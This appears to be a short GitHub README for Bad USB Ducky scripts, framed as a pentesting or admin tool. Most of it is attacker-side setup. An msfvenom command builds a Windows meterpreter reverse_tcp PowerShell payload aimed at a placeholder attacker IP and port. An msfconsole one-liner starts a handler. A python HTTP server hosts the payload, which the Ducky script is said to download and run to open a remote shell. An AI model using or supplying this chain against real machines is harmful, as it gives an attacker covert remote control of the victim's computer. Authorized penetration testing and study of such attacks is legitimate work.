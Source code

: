 # Various Ducky scripts for Bad USBs
###Can be used for pentesting or administrative tasks.
# On The Attacker's Machine
###Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1<br/>
###Open msfconsole and start listener<br/>
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"<br/>
###Start start python http server<br/>
python3 -m http.server 80<br/>
####Ducky script will download and execute powershell script opening meterpreter session<br/>



